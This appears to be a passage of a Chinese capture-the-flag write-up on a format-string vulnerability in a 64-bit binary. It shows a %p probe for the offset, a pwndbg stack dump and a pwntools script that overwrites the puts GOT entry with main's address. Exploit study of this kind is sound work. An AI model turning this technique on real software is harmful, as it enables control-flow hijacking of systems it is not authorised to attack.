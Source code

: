 ### Getting offsets

首先打开程序，确定格式化字符串的相对偏移。打开程序，输入 `AAAAAAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p` ，结果如下：

![image-20240728164321356.png](https://s2.loli.net/2024/07/29/kmynu7LHE4gA6zG.png)

可以看到， `AAAAAAAA` ，即 `0x4141414141414141` 位于格式化字符串后的第六个偏移。

使用 gdb 调试， 输入 `AAAAAAAA` 后断点在 `printf()` 内，然后看栈内容，结果如下：

---

<pre><font color="#C01C28"><b>pwndbg&gt; </b></font>x /40gx $rsp
<font color="#12488B">0x7fffffffdac8</font>:	0x000000000040139e	0x4141414141414141
<font color="#12488B">0x7fffffffdad8</font>:	0x000000000000000a	0x0000000000000000
<font color="#12488B">0x7fffffffdae8</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdaf8</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdb08</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdb18</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdb28</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdb38</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdb48</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdb58</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdb68</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdb78</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdb88</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdb98</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdba8</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdbb8</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdbc8</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdbd8</font>:	0xf53edbb42f9f1d00	0x0000000000000001
<font color="#12488B">0x7fffffffdbe8</font>:	0x00007ffff7c29d90	0x0000000000000000
<font color="#12488B">0x7fffffffdbf8</font>:	0x00000000004011fd	0x0000000100000000
<font color="#C01C28"><b>pwndbg&gt; </b></font>p $rbp
<font color="#2AA1B3">$3</font> = (void *) <font color="#12488B">0x7fffffffdbe0</font>
<font color="#C01C28"><b>pwndbg&gt; </b></font>p $rsp
<font color="#2AA1B3">$4</font> = (void *) <font color="#12488B">0x7fffffffdac8</font>
</pre>

可以看到，输入的格式字符串 `AAAAAAAA` 位于栈的第二位，由于此时位于 `printf()` 函数内， **栈的最顶部 rbp 指向的是 `printf()` 的返回地址，所以不算做参数**，同时由于是 64 位程序，前六个参数在寄存器内，所以格式字符串就是 `printf()` 的第七个参数，也就是格式化字符串（ rdi ）后的第六个偏移。

### Hijacking control flow

首先就是拿下 `puts()` ，像这样构建 payload ：

```python
context(arch = 'amd64', os='linux', log_level='DEBUG')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
printf_got = elf.got['printf']
printf_offset = libc.symbols['printf']
# pause()
main_addr = 0x4011fd 
payload = fmtstr_payload(6,{puts_got:main_addr},write_size="short")
conn.sendlineafter(b"what's your message: ", payload)
conn.interactive()
```
